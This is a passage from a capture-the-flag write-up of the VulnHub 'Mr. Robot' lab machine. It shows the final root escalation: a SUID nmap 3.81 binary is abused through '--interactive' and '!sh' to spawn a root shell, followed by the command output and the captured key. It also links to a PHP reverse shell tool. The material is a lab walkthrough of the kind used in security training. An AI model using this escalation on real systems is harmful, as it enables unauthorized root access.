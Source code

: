 ```
[...]


```

`LinEnum` revealed a `SUID` regarding `nmap`. Checking its version; `3.81`, is a version that is known to be 
vulnerable to a certain privilege escalation attacking using `--interactive`.

```
$ nmap --interactive
nmap --interactive


Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh

# whoami
whoami
root

# cd /root
cd /root

# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd

# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

Thus we've captured our third and final key.

[pentestmonkey]: http://pentestmonkey.net/
[Mr. Robot]: /images/posts/2019-07-04-vulnhub-mr_robot/Mr.%20Robot.png
[robots.txt]: /images/posts/2019-07-04-vulnhub-mr_robot/Robots.png
[Wordpress - Panel]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Panel.png
[Wordpress - Users]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Users.png
[PHP Reverse Shell]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[Wordpress - Denied]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Denied.png
[Wordpress - 404]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20404%20Template.png
[LinEnum]: https://github.com/rebootuser/LinEnum
